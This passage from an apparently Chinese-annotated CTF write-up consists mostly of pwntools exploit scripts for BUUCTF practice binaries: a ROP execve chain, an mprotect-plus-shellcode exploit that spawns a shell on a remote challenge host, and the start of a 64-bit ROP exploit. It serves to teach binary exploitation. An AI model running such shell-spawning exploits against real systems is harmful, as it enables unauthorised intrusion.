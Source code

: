 ```python
payload+= p32(pop_eax)+p32(0xb)+p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(bin_sh)+p32(int_0x80) # 系统调用

p.sendline(payload)
p.interactive()
```

#### mprotect + shellcode
```python
from pwn import *

p = remote("node5.buuoj.cn",28056)
#p = process("./get_started_3dsctf_2016")
#context(log_level="debug")

param1 = 0x308cd64f
param2 = 0x195719d1
get_flag = 0x080489a0
exit_addr=0x804e6a0
mprotect_addr=0x806ec80
buf = 0x80ea000
read_addr=0x806e140
pop_3_ret=0x804f460

payload = b'a'*56
payload+=p32(mprotect_addr)
payload+=p32(pop_3_ret)
payload+=p32(buf)
payload+=p32(0x1000)
payload+=p32(0x7)
payload+=p32(read_addr)
payload+=p32(buf)
payload+=p32(0)
payload+=p32(buf)
payload+=p32(0x100)

sleep(0.1)
p.sendline(payload)
sleep(0.1)

shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
p.sendline(shellcode)

p.interactive()
```

## jarvisoj_level2_x64
### 思路
64位传参

### exp
```python
from pwn import *

#p = process("./level2_x64")
p = remote("node5.buuoj.cn",25059)

context(log_level="debug")

hint = 0x600a90
system_addr = 0x400603
pop_rdi_ret = 0x4006b3

```
